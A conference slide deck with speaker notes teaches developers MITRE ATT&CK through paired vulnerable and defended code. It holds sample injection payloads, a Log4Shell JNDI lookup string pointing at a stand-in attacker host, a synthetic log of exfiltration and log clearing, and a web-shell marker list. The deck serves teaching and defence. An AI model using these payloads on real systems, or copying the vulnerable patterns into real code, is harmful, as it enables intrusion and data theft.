

<style>
section.compact-columns .columns {
  font-size: 0.9em;
  line-height: 1.3;
}
section.compact-columns .columns h3 {
  font-size: 1.08em;
  margin-top: 0;
  margin-bottom: 0.6em;
}
section.compact-columns .columns ul,
section.compact-columns .columns ol {
  margin: 0.4em 0;
}
section.compact-columns .columns li + li {
  margin-top: 0.25em;
}
section.compact-columns .columns blockquote {
  margin: 0.6em 0;
}
section.code-focus pre {
  font-size: 0.8em;
  line-height: 1.2;
  margin: 0.4em 0;
}
</style>

<style scoped>
section { color: #f4f9ff; }
h1, h2 { color: #f4f9ff; }
footer, footer a, section::after { color: #b9d9ef; }
</style>


<!-- _footer: 'https://github.com/codebytes/mitre-attack-for-devs' -->

# MITRE ATT&CK for Developers

## <!-- fit --> The Crooked Line: How Attackers Really Operate

## Chris Ayers

<!-- Attackers don't follow a straight line. They zigzag, backtrack, pivot, and adapt. This talk explores how the MITRE ATT&CK framework maps these crooked paths — and what developers can do to straighten out their defenses. The crooked-line metaphor frames the talk: defenders often expect a straight path, while attackers zigzag, backtrack, and pivot across tactics like reconnaissance, lateral movement, and exfiltration. -->

---


## Chris Ayers

### Principal Software Engineer<br>Azure EngOps AzRel<br>Microsoft

<i class="fa-brands fa-bluesky"></i> BlueSky: [@chris-ayers.com](https://bsky.app/profile/chris-ayers.com)
<i class="fa-brands fa-linkedin"></i> LinkedIn: [chris\-l\-ayers](https://linkedin.com/in/chris-l-ayers/)
<i class="fa fa-window-maximize"></i> Blog: [https://chris-ayers\.com/](https://chris-ayers.com/)
<i class="fa-brands fa-github"></i> GitHub: [Codebytes](https://github.com/codebytes)
<i class="fa-brands fa-mastodon"></i> Mastodon: [@Chrisayers@hachyderm.io](https://hachyderm.io/@Chrisayers)

<!-- Quick intro — I'm Chris, a Principal Software Engineer at Microsoft. I spend a lot of time thinking about how developers can build more secure applications without needing a PhD in cybersecurity. -->

---

## The Security Challenge

- **Growing attack surface**: APIs, microservices, cloud infrastructure
- **Sophisticated adversaries**: Nation-states, organized crime, insider threats
- **Complex attack chains**: Multiple techniques chained together
- **Traditional defenses**: Often focus on single points of failure
- **Goal today**: Protect identity, sessions, and data access

<!-- The attack surface has exploded. We're not just building monoliths anymore — we have APIs, microservices, serverless, and cloud infrastructure. And attackers don't just try one thing. They chain techniques together in complex kill chains. Our defenses need to evolve beyond "patch and pray." -->

---

## What is OWASP?

- **Open Web Application Security Project** - community-driven security standards
- **OWASP Top 10 2025**: Broken Access Control, Cryptographic Failures, Injection, etc.
- **Strengths**: Vulnerability classification, remediation guidance, prevention focus
- **Approach**: "Here's what can break in your application"

<!-- Most developers know OWASP. It's fantastic for understanding vulnerabilities — what can go wrong in your code. But it's fundamentally a prevention-focused, vulnerability-centric view. It answers "what's broken" but doesn't tell you much about who's attacking or how they actually behave. -->

---

## What is MITRE ATT&CK?

- **Origin**: MITRE Corporation, 2013, FMX (Fort Meade Experiment)
- **Purpose**: Knowledge base of adversary tactics, techniques, and procedures (TTPs)
- **Enterprise Matrix**: 14 tactics, 200+ techniques, 400+ sub-techniques
- **Real-world basis**: Derived from actual cyber attacks and threat intelligence
- **Approach**: "Here's how attackers actually operate"

<!-- MITRE ATT&CK flips the perspective. Instead of cataloging vulnerabilities, it catalogs attacker behavior. It started at Fort Meade when MITRE researchers studied real adversaries on a network. With over 200 techniques mapped from real-world attacks, it's the most comprehensive map of how hackers actually operate. -->

---

## MITRE Cybersecurity Ecosystem


<!-- ATT&CK isn't the only framework from MITRE. D3FEND maps defensive countermeasures, ATLAS covers AI/ML threats, and ENGAGE provides adversary engagement strategies. Together they form a comprehensive ecosystem. But ATT&CK is the foundation — and the most relevant for developers. -->

---

## ATT&CK Structure

- **Tactics**: The "why" of an attack (e.g., Initial Access, Persistence)
- **Techniques**: The "how" of an attack (e.g., Spear Phishing, Valid Accounts)
- **Sub-techniques**: Specific implementations (e.g., Spear Phishing via Email)
- **Procedures**: Real-world examples of technique usage by threat actors

<!-- Think of it as a hierarchy. Tactics are the goals — "I want to get initial access." Techniques are how — "I'll use spear phishing." Sub-techniques get specific — "I'll send a phishing email with a malicious attachment." And procedures are documented cases where real threat groups actually did this. -->

---

## The 14 ATT&CK Tactics


<!-- These are attacker goals, not a required sequence. The arrows organize this overview; real attacks loop back, skip steps, and adapt. Notice the groups: Pre-Attack for reconnaissance, Get In for initial compromise, Stay In for maintaining access, and Act for achieving objectives. Today we'll cover seven developer-focused areas: Initial Access, Execution, Persistence, Credential Access, Defense Evasion, Supply Chain, and Collection/Exfiltration. These are teaching groups, not seven official tactics: supply-chain compromise is a technique, and collection/exfiltration spans two tactics. Lateral Movement and Privilege Escalation often fall to infrastructure and platform teams — we'll touch on where they intersect with your code. -->

---

## OWASP vs ATT&CK

<div class="columns">
<div>

### OWASP
- **Focus**: Vulnerabilities
- **Perspective**: "What breaks"
- **Approach**: Prevention-first
- **Scope**: Application layer

</div>
<div>

### MITRE ATT&CK
- **Focus**: Adversary behavior
- **Perspective**: "What attackers do"
- **Approach**: Adversary-informed defense
- **Scope**: Full attack lifecycle

</div>
</div>

<!-- Side by side, you can see the difference. OWASP helps identify an injectable SQL query. ATT&CK helps describe how exploitation can lead to privilege escalation, lateral movement, and data theft. These are complementary perspectives, not an exclusive split between prevention and detection. ATT&CK is a knowledge base; our controls and telemetry perform the detection. -->

---

## Why not Both?


> "OWASP guides secure development. ATT&CK models adversary behavior."

- **Complementary approaches**: Prevention + Detection
- **Real-world attacks**: Use vulnerability chains, not single exploits
- **Defense in depth**: Multiple security perspectives
- **Broader coverage**: Vulnerabilities + adversary techniques

<!-- The setup IS the punchline: OWASP versus ATT&CK sounds like a choice — vulnerabilities or adversary behavior, prevention or detection. Real-world breaches are never a single vulnerability; they're chains of techniques. SolarWinds was supply chain compromise leading to lateral movement leading to data exfiltration. You need prevention AND detection to handle the full lifecycle. -->

---

## Mapping OWASP to ATT&CK

| OWASP Category | ATT&CK Techniques |
|----------------|------------------|
| Broken Access Control | T1078 (Valid Accounts), T1098 (Account Manipulation) |
| Injection | T1190 (Exploit Public-Facing App), T1059 (Command Injection) |
| Security Misconfiguration | T1552 (Unsecured Credentials), T1212 (Exploitation for Credential Access) |
| Cryptographic Failures | T1555 (Credentials from Password Stores) |
| Server-Side Request Forgery | T1090 (Proxy), T1572 (Protocol Tunneling) |

<!-- This mapping is incredibly useful. When you fix an OWASP vulnerability, you're actually blocking specific ATT&CK techniques. Fixing SQL injection doesn't just close a bug — it blocks T1190, which is the front door for dozens of attack chains. Understanding this connection helps you prioritize what to fix first. -->

---

# Let's Think Like Attackers

<!-- Now we shift gears. We're going to look at code through the eyes of an attacker and then see how to defend it. At each step, ask the same three questions: what can the attacker do, what can our application observe, and what decision should that signal trigger? -->

---

## The Kill Chain: Expectation vs Reality


<!-- This is the core insight of the talk. Defenders build straight-line defenses — firewall, IDS, patch management. But attackers zigzag, loop back, escalate, discover new targets, and escalate again. ATT&CK captures this messy reality that a linear kill chain model misses. -->

---

<!-- _class: compact-columns -->

## Real World: SolarWinds (2020)

<div class="columns">
<div>

### The Crooked Line in Action
1. 📦 **T1195.002** — Backdoor in signed update
2. ⚙️ **T1059** — SUNBURST DLL executes
3. 🔐 **T1552** — Golden SAML credential theft
4. 🕸️ **T1071** — Command and Control (C2) via DNS blending
5. 📤 **T1041** — Data exfil over C2 channel

</div>
<div>

### Impact
- **18,000** orgs installed backdoor
- **9 months** undetected
- US Treasury, DHS, Fortune 500 breached

> Your **build pipeline** is an attack surface. Signed ≠ Safe.

</div>
</div>

<!-- SolarWinds is the poster child for why developers need ATT&CK. The attackers compromised the build system — not the source code — so code reviews missed it entirely. The malicious DLL was signed with SolarWinds' own certificate. 18,000 organizations installed it. It was undetected for 9 months. This is what a real crooked line looks like: supply chain to execution to credential theft to exfiltration, with defense evasion at every step. A valid signature proves who signed an artifact, not that its behavior is safe. -->

---

## Deployment Security Practices

| Area | Effective control | Common failure |
|---|---|---|
| Deployment | Policy checks + tested rollback | Checklist-only approval or unverified patches |
| Detection | Threat model + behavior baseline | Tickets without monitoring or follow-through |
| Access | Scoped permissions | Debug endpoints or world-writable files |

**ATT&CK lens:** 

- T1195 (Supply Chain)
- T1078 (Valid Accounts)
- T1505 (Server Software Component)

<!-- Process alone is not security. Enforced policy checks, a threat model, behavioral baselines, and tested recovery procedures provide evidence that a deployment is controlled. A green checklist or a filed ticket is not equivalent to a working control. Rushed patches, exposed debug endpoints, and overly broad file permissions can turn an initial compromise into persistent access. Apply the same scrutiny to build identities and delivery infrastructure as to application code. -->

---

# Initial Access & Credential Attacks

<!-- The attacker needs a first foothold, whether through a web vulnerability, stolen credentials, or phishing. Start with the trust boundary: which endpoints are exposed, which identities are accepted, and what signals would distinguish legitimate use from abuse? A valid login can bypass a perfectly patched endpoint. -->

---

## How Attackers Get In

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1190 | Exploit Public-Facing Application | Web app vulnerabilities |
| T1078 | Valid Accounts | Compromised legitimate credentials |
| T1110 | Brute Force | Password spraying, credential stuffing |
| T1566 | Phishing | Social engineering for credentials |

<!-- These are the most common initial access techniques. T1190 is your classic web app exploit — SQL injection, XSS, etc. T1078 is even scarier — the attacker has real, valid credentials. Brute force and phishing are how they get those credentials in the first place. -->

---

## Make Access Decisions Explicit

**Every request needs an explicit answer. No token? No entry.**

| Attacker move | Application response | Technique |
|---|---|---|
| No valid token | **401** | T1078 valid accounts |
| Wrong role | **403** | T1078 privilege abuse |
| Repeated failures | **Rate-limit + log** | T1110 brute force |
| Injected payload | **Reject** | T1190 app exploitation |
| Impossible travel | **Challenge MFA** | T1078 account takeover |

<!-- Each attacker action needs an explicit application response. The examples cover valid-account abuse (T1078), credential brute-force (T1110), and exposed-app exploitation (T1190). No single response covers every technique; combine authentication, authorization, validation, and behavioral monitoring. -->
---

<!-- _class: code-focus -->

## Vulnerable Code: SQL Injection (T1190)

```python
# VULNERABLE - Direct string concatenation enables T1190
@app.route('/users')
def get_user():
    user_id = request.args.get('id')
    query = f"SELECT * FROM users WHERE id = {user_id}"
    cursor.execute(query)  # T1190: SQL Injection vulnerability
    return cursor.fetchall()

# Attack: /users?id=1 OR 1=1--
```

<!-- Classic SQL injection. The attacker passes "1 OR 1=1--" as the ID, which dumps the entire users table. This is the number one way attackers exploit public-facing applications. Simple string concatenation is all it takes to open the door. -->

---

<!-- _class: code-focus -->

## Defended Code: Parameterized Queries

```python
@app.route('/users')
def get_user():
    user_id = request.args.get('id', '')
    if not user_id.isdigit():
        return "Invalid input", 400
    query = "SELECT * FROM users WHERE id = ?"
    cursor.execute(query, (user_id,))
    user = cursor.fetchone()
    if user is None:
        return "User not found", 404
    return user
```

<!-- Parameter binding keeps the identifier separate from the SQL program, addressing this T1190 injection path. Validation also handles a missing or malformed id. A consistent 404 for missing records is useful API behavior, but does not by itself prevent T1087 account discovery; authorization, rate limits, and response design still matter. Authentication and record-level authorization are omitted from this query-focused excerpt. -->

---

<!-- _class: code-focus -->

## Credential Stuffing Detection (T1110.004)

**One IP, one five-minute window:**

```javascript
detectSuspiciousLogin({ ip }) {
    const accounts = this.countAccountsFromIP(ip);
    const attempts = this.getRateFromIP(ip);
    if (accounts <= 10 && attempts <= 100) return false;
    this.logTechnique("T1110.004", { ip, accounts, attempts });
    return true;
}
```

**3 accounts / 8 attempts → normal. 12 accounts / 80 attempts → flag.**

<!-- Credential stuffing tries breached username/password pairs at scale. This is the detection-method excerpt; the helpers maintain distinct-account counts and failed-attempt counts over the same rolling five-minute window, including the latest attempt. The original two branches are combined without changing their >10-account or >100-attempt thresholds. Three accounts and eight failures do not flag; twelve accounts and eighty failures emit a T1110.004 event because the account threshold is crossed. The caller can then challenge or throttle. Thresholds are illustrative: tune for shared IPs, normal retry behavior, and false positives. Do not log attempted passwords. -->

---

# Execution & Code Injection

<!-- Once attackers get in, they may try to execute code through the application. The next trust boundary is between user data and an interpreter. Watch what happens when a filename stops being data and becomes part of a shell program. -->

---

## How Attackers Run Code

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1059 | Command & Scripting Interpreter | OS command injection |
| T1203 | Exploitation for Client Execution | Client-side code execution |
| T1055 | Process Injection | Injecting into legitimate processes |

<!-- Command injection is when user input ends up in an OS command. Exploitation for client execution targets the user's browser or client application. Process injection is more advanced — injecting code into running processes. As developers, we mostly encounter T1059. -->

---

## When Input Becomes a Command

```text
Developer: We validate filename length.
Attacker:  report.jpg; echo INJECTED
Shell:     That is a second command.
```

- User input became a command string
- The shell interpreted more than the app intended
- The blast radius is now the process identity

**ATT&CK lens:** T1059 — Command and Scripting Interpreter

<!-- The harmless echo illustrates a POSIX shell interpreting a second command. If untrusted input reaches a shell, the attacker gets a language runtime, not a filename parser. The impact is limited by the application's process identity and permissions, not the intended file-conversion operation. The next slide shows the same boundary failure with Windows cmd.exe syntax. -->
---

<!-- _class: code-focus -->

## Vulnerable Code: Command Injection (T1059)

```csharp
[HttpPost]
public IActionResult ProcessFile(string filename)
{
    var command = $"magick {filename} output.pdf";
    var process = Process.Start("cmd.exe", $"/c {command}");
    process.WaitForExit();
    return Ok("File processed");
}

// Harmless cmd.exe demo: file.jpg & echo INJECTED & rem
```

<!-- The filename goes directly into a Windows cmd.exe command. The ampersand separates commands; the harmless echo makes that visible without a destructive payload. The ImageMagick conversion is no longer the only operation the process runs. This is intentionally vulnerable code, not a command to run against a real service. -->

---

<!-- _class: code-focus -->

## Defended Code: Command Allowlisting

```csharp
if (!IsValidFilename(filename))
    return BadRequest("Invalid filename");
var start = new ProcessStartInfo("magick.exe") {
    UseShellExecute = false
};
start.ArgumentList.Add(filename);
start.ArgumentList.Add("output.pdf");
using var process = Process.Start(start)
    ?? throw new InvalidOperationException("Conversion did not start");
process.WaitForExit();
```

**Fixed executable. Separate arguments. No command shell.**

<!-- This is the process-launch excerpt inside the same controller action. ArgumentList replaces hand-built quoting; each value is an argument, not a shell program. IsValidFilename must constrain extensions and the upload directory and reject option-like names. Use a trusted executable path, least privilege, bounded runtime with child-process termination, and exit-code checking in the full implementation. The excerpt focuses on T1059's shell boundary, not every file-conversion risk. -->

---

## Unsafe Deserialization (T1203)

```python
# VULNERABLE - Unsafe deserialization enables T1203
import pickle
@app.route('/api/data', methods=['POST'])
def process_data():
    obj = pickle.loads(request.data)  # Code execution risk!
    return process_object(obj)

# DEFENDED - Safe deserialization with JSON
import json
@app.route('/api/data', methods=['POST'])  
def process_data():
    try:
        data = json.loads(request.data)  # T1203 Prevention
        if not validate_schema(data):
            return "Invalid data format", 400
        return process_object(data)
    except json.JSONDecodeError:
        return "Invalid JSON", 400
```

<!-- Pickle is Python's built-in serializer — and effectively a remote-code-execution primitive when fed untrusted bytes. `pickle.loads()` reconstructs live objects, calling `__reduce__` and importing modules along the way, so an attacker's payload runs the moment you deserialize it. Same class of bug shows up in YAML's unsafe loader, Java's ObjectInputStream, PHP's unserialize(), and .NET's BinaryFormatter. The fix is simple — use JSON instead. If you must deserialize complex objects, use schema validation. Never deserialize untrusted data with pickle, YAML's unsafe loader, or Java's ObjectInputStream. -->

---

# Persistence & Session Hijacking

<!-- Attackers don't want to re-exploit every time. Once they have access, they look for a reusable identity or session. The question now changes from "is this token valid?" to "is it still being used by the expected client, and can we revoke it?" -->

---

## How Attackers Stay In

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1098 | Account Manipulation | Modifying user accounts for persistence |
| T1185 | Browser Session Hijacking | Stealing and reusing session tokens |
| T1505.003 | Web Shell | Server-side persistence mechanisms |

<!-- Account manipulation means creating backdoor accounts or elevating privileges on existing ones. Session hijacking steals active sessions — why crack passwords when you can steal the cookie? Web shells are the scariest — a persistent backdoor file on your server that gives the attacker a command line. -->

---

<!-- _class: code-focus -->

## Vulnerable Session Management

```javascript
app.use(session({
    secret: 'hardcoded-secret',       // T1552
    resave: false, saveUninitialized: false,
    cookie: {
        secure: false, httpOnly: false,
        maxAge: 24 * 60 * 60 * 1000  // 24-hour window
    }
}));
app.get('/api/data', (req, res) => {
    if (req.session.user)
        return res.json(getData(req.session.user));
    res.status(401).send('Unauthorized');
});
```

<!-- The code shows a hardcoded signing secret (T1552), cookies that are not restricted to HTTPS or hidden from JavaScript, and a long expiration window for session abuse (T1185). Cookie-signature exposure is serious, but an Express session also depends on server-side state; knowing the signing secret is not equivalent to knowing every session. The endpoint trusts the session user without checking client context or rotating the ID. A stolen session remains usable until expiration or revocation. -->

---

<!-- _class: code-focus -->

## Defended Session Management

```javascript
app.use(session({
    secret: process.env.SESSION_SECRET,
    resave: false, saveUninitialized: false,
    rolling: true, // Refresh expiry, not the session ID
    cookie: {
        secure: true, httpOnly: true, sameSite: 'strict',
        maxAge: 15 * 60 * 1000
    }
}));
```

- **Validate client context**; challenge or revoke suspicious sessions.
- **Regenerate the ID** after login or privilege changes.

<!-- Configuration and session validation are separate controls. A required, securely supplied signing secret addresses T1552; HTTPS-only, HttpOnly, and SameSite cookies reduce exposure. Rolling refresh extends expiry and does not rotate the session ID; use req.session.regenerate with error handling at authentication and privilege boundaries. The validation middleware, omitted here for readability, checks that a user exists, compares the stored fingerprint with generateFingerprint(req), and revokes or challenges on a meaningful mismatch before calling next. IP changes can be legitimate, so treat fingerprinting as a risk signal and tune it to the application. These controls reduce session-abuse risk associated with T1185; they do not make session theft impossible. -->

---

<!-- _class: code-focus -->

## Web Shell Detection (T1505.003)

**Content-check excerpt, after the extension allowlist:**

```csharp
using var reader = new StreamReader(file.OpenReadStream());
var content = reader.ReadToEnd();
foreach (var pattern in _suspiciousPatterns) {
    if (!content.Contains(pattern, StringComparison.OrdinalIgnoreCase))
        continue;
    LogSecurityEvent("T1505.003", $"Suspicious marker: {pattern}");
    return false;
}
return true;
```

**Text signatures are a signal, not proof that an upload is safe.**

<!-- This excerpt preserves the content-scanning loop; the extension validation and class setup move to the explanation. The original allowlist is .jpg, .png, .pdf, and .docx. The illustrative markers are eval(, exec(, system(, <?php, <%, <script, and cmd.exe. Reject and log a disallowed extension before reaching this loop. A marker match warrants investigation; a non-match does not prove safety. Use size limits, format-aware validation, malware scanning, and non-executable storage outside the web root. A text reader is not a complete validator for binary image or document formats, and polyglot or encoded content can evade simple signatures. -->

---

# Credential Access & Secrets

<!-- Once an application is compromised, its credentials can extend the attack to other services. Developers often leave secrets in source, configuration, or environment variables. Reduce static secrets, scope workload permissions, and monitor credential use; moving a secret alone does not remove every way to steal it. -->

---

## How Attackers Steal Credentials

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1552 | Unsecured Credentials | Hardcoded secrets, config files |
| T1555 | Credentials from Password Stores | Browser/app credential extraction |
| T1528 | Steal Application Access Token | API tokens, OAuth tokens |

<!-- T1552 is huge — hardcoded credentials in source code are found in almost every codebase audit. T1555 targets credential stores like browser password managers. T1528 is about stealing OAuth tokens and API keys from running applications. All three are preventable with proper secrets management. -->

---

## Secrets Management: A Choice


| ❌ Drake disapproves | ✅ Drake approves |
|---|---|
| `const apiKey = "sk-prod-...";` | `DefaultAzureCredential()` |
| `.env` committed to git | Managed Identity + Key Vault |
| Manual secret rotation | Scoped access + short-lived tokens |

**ATT&CK lens:** T1552 — Unsecured Credentials


<!-- The Drake comparison reinforces the same choice: credentials in code create T1552 exposure, while workload identity and scoped authorization reduce static secrets in the application path. RBAC controls what the identity can access; the identity provider issues the short-lived tokens. -->
---

<!-- _class: code-focus -->

## Bad Secrets Management - All Languages

```python
# Python: hardcoded credentials (dummy values)
DB_PASSWORD = "demo-password"
API_KEY = "demo-api-key"
```

```csharp
// C#: the same problem in static configuration
const string DbPassword = "demo-password";
const string ApiKey = "demo-api-key";
```

```javascript
// JavaScript: source-controlled configuration
const config = { dbPassword: "demo-password",
                 jwtSecret: "demo-signing-secret" };
```

<!-- These are deliberately fake values, showing the same T1552 exposure in all three languages. Credentials in connection strings, static fields, or configuration objects are still credentials in source. Removing them from the latest revision does not remove historical copies or revoke access. Rotate or revoke exposed credentials and use secret-scanning tools such as Gitleaks and TruffleHog. The full configuration boilerplate is not needed to recognize the pattern. -->

---

<!-- _class: code-focus -->

## Good Secrets Management - Python & C\#

```python
from azure.keyvault.secrets import SecretClient
from azure.identity import DefaultAzureCredential

client = SecretClient("https://myvault.vault.azure.net",
                      DefaultAzureCredential())
db_conn = client.get_secret("db-connection-string").value
```

```csharp
var client = new SecretClient(
    new Uri("https://myvault.vault.azure.net"),
    new DefaultAzureCredential());
var connStr = (await client.GetSecretAsync("db-connection")).Value.Value;
```

<!-- Workload identity removes the bootstrap credential from application code, reducing T1552 exposure; Key Vault stores a secret when the downstream service still needs one. DefaultAzureCredential can use developer credentials locally and managed identity in a configured Azure host. Provision the identity and grant narrowly scoped access, such as Key Vault Secrets User, separately. The code does not configure those permissions or rotate the database secret. Prefer direct identity-based access to the downstream service where supported. -->

---

## Automate Secret Detection (T1552 Prevention)

- **GitHub Secret Scanning** — automatically detects tokens, keys, and credentials in your repos
- **GitHub Push Protection** — blocks pushes containing secrets _before_ they reach the repo
- **Partner patterns** — 200+ token types from AWS, Azure, GCP, Stripe, npm, etc.
- **Custom patterns** — define regex for your own internal secrets
- **Pre-commit hooks** — tools like `gitleaks` and `trufflehog` catch secrets locally

> 💡 Enable **Secret Scanning** + **Push Protection** in your GitHub repo settings today. It's free for public repos.

<!-- Don't build your own scanner — use GitHub's built-in secret scanning. It covers 200+ partner patterns and blocks pushes before secrets ever hit version control. For private repos, GitHub Advanced Security adds custom patterns and organization-wide coverage. Combined with pre-commit hooks, you get defense in depth for credential leaks. -->

---

## I Used to Ship Secrets Like That

> "We'll remove the secret before production."
>
> Git history makes that promise too late.

| Before | After |
|---|---|
| Secrets in config | Secrets in vaults |
| Shared API keys | Scoped workload identities |
| Manual rotation | Short-lived tokens |
| "We'll clean git later" | Push protection blocks it now |

**ATT&CK lens:** T1552 — Unsecured Credentials

<!-- Secrets hygiene often becomes real only after an incident. Push protection, vault-backed runtime access, and scoped identities address the risk earlier. Deleting a secret from the latest revision does not revoke it or remove earlier copies: rotate or revoke first, then clean up exposure. -->
---

# Defense Evasion & Log Tampering

<!-- Once attackers are in, they don't want to be detected. They may tamper with logs, obfuscate their tools, or masquerade as legitimate processes. The next question is whether we can trust the evidence used to detect and investigate them. -->

---

## How Attackers Hide

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1027 | Obfuscated Files/Information | Hiding malicious content |
| T1070 | Indicator Removal on Host | Log deletion/tampering |
| T1036 | Masquerading | Appearing legitimate |

<!-- T1027 is about hiding malicious payloads — encoding, encryption, packing. T1070 is log tampering — deleting or modifying logs to cover tracks. T1036 is masquerading — making malicious files look like legitimate system files. These techniques make forensic investigation extremely difficult. -->

---

## Living Off the Land: Correlate the Signals

```text
evidence.log

02:13:07  > powershell.exe spawned by svc_build
02:13:42  > curl POST 48 MB -> 185.220.x.x
02:18:55  > wevtutil cl Security; App; System

[!] alert correlation: ATTACK CHAIN DETECTED
```

**ATT&CK lens:** 
  - T1059 command execution
  - T1070 log tampering
  - T1071 C2

<!-- Individually, a shell, an HTTP transfer, and a maintenance command can look legitimate. Correlate the same process identity across this short time window before deciding to investigate or contain it. This synthetic evidence sequence is an illustration, not a ready-made detection rule; expected build behavior provides the baseline. -->
---

<!-- _class: code-focus -->

## Log Injection Attack (T1070)

```python
import logging
logger = logging.getLogger(__name__)

@app.route('/login', methods=['POST'])
def login():
    username = request.json.get('username')
    password = request.json.get('password')
    if not authenticate(username, password):
        logger.warning(f"Failed login for user: {username}")
        return "Invalid credentials", 401
    return "Login successful"
# Attack: "admin\n[INFO] Successful login for admin"
```

<!-- Log injection is subtle and devastating. The attacker's username contains a newline and a fake log entry. Your log file now shows a successful admin login that never happened — and the real failed attempt is buried. During incident response, investigators will see "Successful login for admin" and miss the attack entirely. -->

---

## Tamper-Evident Logging (T1070 Prevention)

```csharp
// T1070 defense: export logs outside the application host
builder.Logging.AddOpenTelemetry(otel => {
    otel.AddOtlpExporter();                        // OpenTelemetry export
});
builder.Services.AddApplicationInsightsTelemetry(); // Azure Monitor

// Sanitize before logging — prevent log injection
logger.LogWarning("Failed login for user: {User}",
    Regex.Replace(username ?? "", @"[\r\n\t\f]", "_"));
```

```python
# Python: structured logging → Azure Monitor / Log Analytics
from azure.monitor.opentelemetry import configure_azure_monitor
configure_azure_monitor()  # Export telemetry to Azure Monitor
```

<!-- Separate log storage from the application and restrict the application's permissions on that storage. These snippets illustrate telemetry export and input sanitization; enabling an exporter does not configure immutable storage or retention. Set those controls separately, and consider immutable archival storage where required. Azure Monitor Log Analytics and Application Insights support investigation with KQL. Structured fields and newline sanitization help prevent an attacker-controlled value from impersonating a separate event. -->

---

## Immutable Logging Architecture


<!-- The goal is independent evidence even if the application host is compromised. The local buffer, protected storage, and external SIEM provide separate records to compare. Encryption alone is not immutability: restrict deletion and retention changes, protect integrity proofs outside the host, and alert on missing as well as modified records. -->

---

# Supply Chain Compromise

<!-- So far we've followed abuse through application features. Now change the entry point: what if malicious code arrives through something the build already trusts? SolarWinds, Shai-Hulud, and event-stream illustrate upstream compromise; Log4Shell illustrates a critical flaw in a trusted dependency. Keep those two failure modes distinct as we walk through the existing cases. -->

---

## How Attackers Poison Your Dependencies

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1195 | Supply Chain Compromise | Compromising upstream dependencies |
| T1195.001 | Compromise Software Dependencies | Malicious packages |

<!-- T1195 is the broad category — any compromise of something upstream of you. T1195.001 specifically targets software dependencies — the npm packages, PyPI packages, and NuGet packages we all depend on. The average application has hundreds of dependencies, each one a potential attack vector. -->

---

<style scoped>
table { font-size: 0.75em; line-height: 1.25; table-layout: fixed; }
th, td { padding: 5px 8px; }
th:nth-child(1) { width: 16%; }
th:nth-child(2) { width: 7%; }
th:nth-child(3) { width: 50%; }
th:nth-child(4) { width: 27%; }
</style>

## The Supply-Chain Attack Arc

| Story | Year | Attack Pattern | Classification |
|-------|------|----------------|----------------|
| **event-stream** | 2018 | Maintainer handoff → poisoned `flatmap-stream` dependency | Supply-chain compromise |
| **SolarWinds** | 2020 | Build pipeline compromise by nation-state actors | Nation-state supply-chain |
| **Log4Shell** | 2021 | Critical RCE in a trusted, uncompromised library | ⚠️ Dependency-trust failure |
| **XZ Utils** | 2024 | Build pipeline compromise by nation-state actors | Nation-state supply-chain |
| **Shai-Hulud** | 2025 | Self-replicating npm worm via `postinstall` lifecycle hooks | Supply-chain compromise |
| **Notepad++** | 2025 | Update infrastructure hijacked → Chrysalis backdoor | Supply-chain compromise |
| **Axios** | 2026 | Hijacked publisher → RAT via `postinstall` hook | Supply-chain compromise |

<!-- The arc tells a single story: your dependency graph is an attack surface at every layer. event-stream is the historical setup — a tiny trusted package became a weapon after a maintainer handoff. Shai-Hulud and Axios show the modern npm threat: install equals code execution when maintainer accounts are compromised. Notepad++ proves it isn't npm-only — developer tools and their update pipelines are targets too. Log4Shell is the other failure mode: no attacker needed, a trusted library's own flaw was enough. SolarWinds and XZ Utils are the nation-state tier — years of patience, build-pipeline access, and signed artifacts that looked entirely official. -->

---

<!-- _class: compact-columns -->

## Log4Shell (2021) — Dependency-Trust Failure, Not Compromise

<div class="columns">
<div>

### 🔓 CVE-2021-44228
- **Log4j 2.0–2.14.1**: RCE via JNDI lookup injection
- Any logged string could trigger code execution:
  `${jndi:ldap://attacker.com/x}`
- Transitive dependency — most teams didn't know they had it
- CVSS 10.0 · initial fix: **Log4j 2.15.0**

</div>
<div>

### ⚠️ Why It's a Different Failure Mode
- Log4j maintainers were **not compromised**
- No poisoned release, no hijacked publisher
- A critical flaw in a **trusted, legitimate library**
- Exposed lack of Software Bill of Materials (SBOM) visibility

> A dependency can be vulnerable **without a compromised publisher.**

</div>
</div>

<!-- Log4Shell differs from SolarWinds or event-stream: there was no malicious maintainer, poisoned package, or hijacked build pipeline. The library's design had a critical flaw that attackers could exploit. Version 2.15.0 was an initial response, not a current upgrade recommendation; later fixes followed, so use current vendor guidance. The developer lesson is dependency visibility: teams first needed to answer "do we have Log4j?" A current Software Bill of Materials helps locate affected components. -->

---

<!-- _class: compact-columns -->

## Case Study: XZ Utils Backdoor (CVE-2024-3094)

<div class="columns">
<div>

### 🕵️ The 2-Year Long Con
1. **2021**: "Jia Tan" submits first patch
2. **2022**: Sock puppets pressure maintainer
3. **2023**: Becomes co-maintainer
4. **2024**: Backdoor in tarballs only
5. **Mar 29**: Found by accident

</div>
<div>

### 🎯 ATT&CK Techniques
- **T1195.001** — Supply chain compromise
- **T1098** — Maintainer takeover
- **T1027** — Obfuscation (not in git!)
- **T1059** — Remote code execution via SSHd
- 💡 Caught: SSH was **500ms slower**

</div>
</div>

